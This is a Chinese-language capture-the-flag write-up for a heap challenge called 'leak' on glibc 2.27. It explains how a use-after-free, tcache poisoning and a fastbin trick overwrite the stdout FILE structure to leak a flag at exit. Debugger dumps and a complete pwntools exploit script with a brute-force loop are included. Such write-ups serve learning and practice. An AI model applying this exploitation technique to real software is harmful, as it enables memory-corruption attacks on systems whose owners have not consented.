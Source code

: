 # leak  
参考了xia0ji233师傅的WP https://www.52pojie.cn/thread-1705930-1-1.html，复现了好久做出来了（其实现在还是有点一知半解）。  
首先需要注意此题libc版本为2.27 1.6，此版本的tcache中会有双指针，而如果是2.27 1.4则没有双指针。 
保护全开，而且没有show函数。  
但是会把flag读取到一个堆块中，要想办法打印出来。  
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/leak/pics/putflag.png)  
将stdout结构体修改后可以在调用puts或者printf时输出指定内容，然而这道题里没有这两个函数，但是程序在exit时会将剩余内容输出（貌似是这个机制）。  
我们希望得到的stdout是类似这样的结构。
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/leak/pics/stdout.png)  
```
pwndbg> p/x *stdout
$1 = {
  _flags = 0xfbad1800,
  _IO_read_ptr = 0x0,   /* Current read pointer */
  _IO_read_end = 0x0,   /* End of get area. */
  _IO_read_base = 0x0,  /* Start of putback+get area. */
  _IO_write_base = 0x5632f5c5f250,  /* Start of put area. */
  _IO_write_ptr = 0x5fffffffffff,   /* Current put pointer. */
  _IO_write_end = 0x0,  /* End of put area. */
  _IO_buf_base = 0x0,   /* Start of reserve area. */
  _IO_buf_end = 0x0,    /* End of reserve area. */
  _IO_save_base = 0x0,  
  _IO_backup_base = 0x0,    
  _IO_save_end = 0x0,
  _markers = 0x0,
  _chain = 0x7f8499deba00,
  _fileno = 0x1,
  _flags2 = 0x0,
  _old_offset = 0xffffffffffffffff,
  _cur_column = 0x0,
  _vtable_offset = 0x0,
  _shortbuf = {0x0},
  _lock = 0x7f8499ded8c0,
  _offset = 0xffffffffffffffff,
  _codecvt = 0x0,
  _wide_data = 0x7f8499deb8c0,
  _freeres_list = 0x0,
  _freeres_buf = 0x0,
  __pad5 = 0x0,
  _mode = 0x0,
  _unused2 = {0x0 <repeats 20 times>}
}
```
需要将flag改为0xfbad1800，_IO_write_base改为读取内容起始位置，_IO_write_ptr为读取终止位置。  
修改完成功程序运行到exit时便会从_IO_write_base开始逐个字节输出直到_IO_write_ptr或者打印到不可打印区域停止。  
## 题目分析
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/leak/pics/main.png)  
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/leak/pics/add.png)  
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/leak/pics/del.png)  
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/leak/pics/edit.png)  
发现free后没有清空，存在UAF，上面说了是2.27 1.6的版本，可以先从unsortbin中获得libc地址，用tcache投毒在stdout结构体内开辟堆。  
# 细节展示
为了得到unsortedbin首先需要填满tcache，这里构造了两个0xc0互刷，再构造两个0x60的chunk3和4，此时chunk1覆盖chunk3和chunk4，使chunk4的size可以被随意修改。  
```
    add(0,0xb0)
    add(1,0xb0)
    add(2,0x50)
    add(14,0xb0)
    add(15,0x200)
    for i in range(3):
        free(0)
        edit(0,p64(0)*2)
        free(1)
        edit(1,p64(0)*2)
    free(0)
    free(1)
    add(3,0x50)
    add(4,0x50)
```
```
0x5618e48143a0: 0x00005618e51052a0 0xb0 0x00005618e5105360 0xb0
0x5618e48143b0: 0x00005618e5105420 0x50 0x00005618e5105360 0x50
0x5618e48143c0: 0x00005618e51053c0 0x50 0x0000000000000000
0x5618e48143d0: 0x0000000000000000      0x0000000000000000
0x5618e48143e0: 0x0000000000000000      0x0000000000000000
0x5618e48143f0: 0x0000000000000000      0x0000000000000000
0x5618e4814400: 0x0000000000000000      0x0000000000000000
0x5618e4814410: 0x00005618e5105480 0xb0 0x00005618e5105540
```
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/leak/pics/bin1.png)  

将libc的低字节改成0x7c60，即stdout的地址，申请两次大小为0xc0的堆块就能实现tcache投毒。  
```
    edit(1,b'\x60\xc7')
    add(5,0xb0)
    add(6,0xb0)
    add(7,0xb0)
```
```
0x5618e48143a0: 0x00005618e51052a0 0xb0 0x00005618e5105360 0xb0
0x5618e48143b0: 0x00005618e5105420 0x50 0x00005618e5105360 0x50
0x5618e48143c0: 0x00005618e51053c0 0x50 0x00005618e51052a0 0xb0
0x5618e48143d0: 0x00005618e5105360 0xb0 0x00007f806f1ec760 0xb0
0x5618e48143e0: 0x0000000000000000      0x0000000000000000
0x5618e48143f0: 0x0000000000000000      0x0000000000000000
0x5618e4814400: 0x0000000000000000      0x0000000000000000
0x5618e4814410: 0x00005618e5105480 0xb0 0x00005618e5105540
```
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/leak/pics/bin2.png)  
由于还需要将一个堆地址放进stdout，接下来选择fastbin结合tcache进行攻击将堆地址放进对应位置。首先需要重新把tcache填充满，并得到一个fastbin。  
```
   free(0)
    edit(0,p64(0)*2)
    free(14)
    edit(14,p64(0)*2)
    free(0)
    edit(0,p64(0)*2)
    for i in range(3):
        free(2)
        edit(2,p64(0)*2)
        free(4)
        edit(4,p64(0)*2)
    free(2)
    edit(2,p64(0)*2)
    free(4)
```
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/leak/pics/bin3.png)  
先想办法让fastbin的fd指针变成libc地址，把他对应的堆放进unsortedbin就行，利用上面所说的，编辑chunk1更改chunk4的size。  
```
    edit(1,p64(0)*11+p64(0xc1))
    free(4)
```
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/leak/pics/bin4.png)  
需要利用到这样一个机制，当发现tcache没满并且存在fastbin时，会把fastbin放进tcache中，这个过程中会把堆地址放进fd对应的堆块中（这个过程其实还是没搞明白，还是得看源码，鼠鼠太菜了看不懂wuwuwu）。  
```
    edit(1,p64(0)*11+p64(0x61))
    edit(4,b'\x68\xc7')
    edit(7,p64(0xfbad1800)+p64(0)*4+p64(0x5fffffffffff))
    add(8,0x50)#从tcache中取出一个，这时候tcache不满了
    add(9,0x50)
```
之后只要退出程序就行，会输出来一大堆东西，可以再改一下让_IO_write_base接近flag的位置，只要输出前几个字符就行了，这题需要爆破半个字节。  
![](https://s-bj-4514-pwnpic.oss.dogecdn.com/leak/pics/success.png)  
# 完整exp：
```
from pwn import * 
# context.log_level = 'debug' 

def add(index,size):
    p.recvuntil(b'6. exit\n')
    p.recvuntil(b'Your choice: ')
    p.sendline(b'1')
    p.recvuntil(b'Index: ')
    p.sendline(str(index).encode())
    p.recvuntil(b'Size: ')
    p.sendline(str(size).encode())
def edit(index,content):
    p.recvuntil(b'6. exit\n')
    p.recvuntil(b'Your choice: ')
    p.sendline(b'2')
    p.recvuntil(b'Index: ')
    p.sendline(str(index).encode())
    p.recvuntil(b'Content: ')
    p.send(content)
def free(index):
    p.recvuntil(b'6. exit\n')
    p.recvuntil(b'Your choice: ')
    p.sendline(b'3')
    p.recvuntil(b'Index: ')
    p.sendline(str(index).encode())
def exit():
    p.recvuntil(b'6. exit\n')
    p.recvuntil(b'Your choice: ')
    p.sendline(b'6')
time=0
while 1:
    time=time+1
    print("try time:",time)
    p=process('./leak')
    elf=ELF('./leak')
    p.recvuntil(b'set up.\n')
    add(0,0xb0)
    add(1,0xb0)
    add(2,0x50)
    add(14,0xb0)
    add(15,0x200)
    for i in range(3):
        free(0)
        edit(0,p64(0)*2)
        free(1)
        edit(1,p64(0)*2)
    free(0)
    free(1)
    add(3,0x50)
    add(4,0x50)
    # gdb.attach(p)
    edit(1,b'\x60\xc7')
    add(5,0xb0)
    add(6,0xb0)
    add(7,0xb0)
    # pause()
    free(0)
    edit(0,p64(0)*2)
    free(14)
    edit(14,p64(0)*2)
    free(0)
    edit(0,p64(0)*2)
    for i in range(3):
        free(2)
        edit(2,p64(0)*2)
        free(4)
        edit(4,p64(0)*2)
    free(2)
    edit(2,p64(0)*2)
    free(4)
    # pause()
    edit(1,p64(0)*11+p64(0xc1))
    free(4)
    # pause()
    edit(1,p64(0)*11+p64(0x61))
    edit(4,b'\x68\xc7')
    edit(7,p64(0xfbad1800)+p64(0)*4+p64(0x5fffffffffff))
    add(8,0x50)
    add(9,0x50)
    # pause()
    # gdb.attach(p)

    edit(7,p64(0xfbad1800)+p64(0)*3+b'\x50\xf2')
    exit()
    recvthing=p.recv(100)
    if b'flag' in recvthing:
        print('flag:[',recvthing,']')
        break

```